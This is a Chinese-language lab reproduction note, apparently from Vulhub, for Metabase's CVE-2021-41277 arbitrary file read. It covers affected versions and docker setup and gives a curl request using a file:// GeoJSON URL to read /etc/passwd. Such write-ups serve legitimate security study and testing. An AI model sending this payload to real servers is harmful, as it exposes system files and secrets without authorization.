 # Metabase任意文件读取漏洞 CVE-2021-41277

## 漏洞描述

Metabase是一个开源的数据分析平台。在其0.40.0到0.40.4版本中，GeoJSON URL验证功能存在远程文件读取漏洞，未授权的攻击者可以利用这个漏洞读取服务器上的任意文件，包括环境变量等。

参考链接：

- https://github.com/metabase/metabase/security/advisories/GHSA-w73v-6p7p-fpfr
- https://github.com/tahtaciburak/CVE-2021-41277

## 影响版本

```
metabase 0.40.0-0.40.4
```

## 环境搭建

Vulhub执行如下命令启动一个Metabase 0.40.4版本服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:3000`可以查看到Metabase的安装引导页面，我们填写初始账号密码，并且跳过后续的数据库填写的步骤即可完成安装：

![image-20220517154249116](./images/202205171542277.png)

## 漏洞复现

执行以下命令读取`/etc/passwd`：

```
curl -v http://your-ip:3000/api/geojson?url=file:////etc/passwd
```

![image-20220517154548409](./images/202205171545732.png)